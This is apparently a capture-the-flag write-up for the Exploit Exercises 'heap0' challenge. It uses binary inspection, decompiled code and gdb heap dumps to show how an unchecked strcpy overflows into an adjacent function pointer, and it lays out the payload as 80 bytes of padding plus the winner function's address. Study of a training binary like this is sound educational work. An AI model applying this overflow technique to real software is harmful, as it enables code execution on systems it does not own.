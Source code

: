 # Exploit exercises - heap0 challenge

## Vulnerability

Standard check shows:

```
$ rabin2 -I heap0
arch     x86
baddr    0x8048000
binsz    23541
bintype  elf
bits     32
canary   false
sanitiz  false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```

When we run the binary we observe a simple output which shows where the 'data' and 'fp' is in memory and a seg fault.

```
$ ./heap0
data is at 0x9f9b160, fp is at 0x9f9b1b0
Segmentation fault (core dumped)
```

Looking into the disassembled code:

```
void main(undefined4 param_1,int param_2)

{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = nowinner;
  printf("data is at %p, fp is at %p\n",__dest,ppcVar1);
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```

We see that the binary reads a command line argument and copies it with strcpy to `__dest` variable. Since `__dest` and `ppcVar1` are malloc'd, they will both reside on the heap, as two adjacent chunks. On the heap, "two adjacent chunks" means that in between those memory allocations lies additional data (malloc_chunk header) and the allocated size can be different from the one specified to malloc function.

The vulnerability itself is in using the `strcpy` function to place our command line argument into `__dest` - we can overflow into `ppcVar1` and write our own function pointer which will get executed on line `(**ppcVar1)()`. Perfect place to place our `winner` function address.

## Overwriting the second chunk

To be exactly sure how much we need to overwrite into the next chunk, let's inspect the memory after `strcpy` call using gdb:

```
Breakpoint 1 at 0x80484f7: file heap0/heap0.c, line 38.
(gdb) run ABCDEF
Starting program: /heap0 ABCDEF
data is at 0x804a160, fp is at 0x804a1b0

Breakpoint 1, main (argc=2, argv=0xffffd144) at heap0/heap0.c:38
38	heap0/heap0.c: No such file or directory.
(gdb) i r eax
eax            0x804a160           134521184
(gdb) x/50wx $eax - 20
0x804a14c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a15c:	0x00000051	0x44434241	0x00004645	0x00000000
0x804a16c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a17c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a18c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a19c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1ac:	0x00000011	0x08048478	0x00000000	0x00000000
0x804a1bc:	0x00000411	0x61746164	0x20736920	0x30207461
0x804a1cc:	0x34303878	0x30363161	0x7066202c	0x20736920
0x804a1dc:	0x30207461	0x34303878	0x30623161	0x0000000a
0x804a1ec:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1fc:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a20c:	0x00000000	0x00000000
```

Breaking it down a little:

```
0x804a15c:	0x00000051	0x44434241	0x00004645	0x00000000
0x804a16c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a17c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a18c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a19c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a1ac:	0x00000011	0x08048478	0x00000000	0x00000000
```

We can observe that our data ABCDEF (0x44434241 and 0x00004645 blocks) starts at 0x804a160. Few bytes before that, at 0x804a15c, there is a number 0x51 converted to 81 decimal. The number represents the actual size of the whole chunk, but keep in mind that the last three bits in that number are used to mark whether the chunk belongs to a thread arena (A), is mmaped (M) and whether the previous chunk adjacent to this one is in use (P). With that in mind - the actual size of the chunk is actually 80.

This same information is disclosed via the output when the binary is executed:

```
(gdb) run ABCDEF
Starting program: /heap0 ABCDEF
data is at 0x804a160, fp is at 0x804a1b0

(gdb) p 0x804a1b0 - 0x804a160
$4 = 80
```

Meaning that we are overanalysing it now, but well ...

The general idea in the end is:
- write 80 bytes of junk data which will be stored into the allocated memory of the first chunk and malloc_chunk header data of the second chunk
- write the address of the winner function (`\x64\x84\x04\x08`) which will be called right after `strcpy`

The solution for this task is `solve_exploit_exercises_heap0.py`
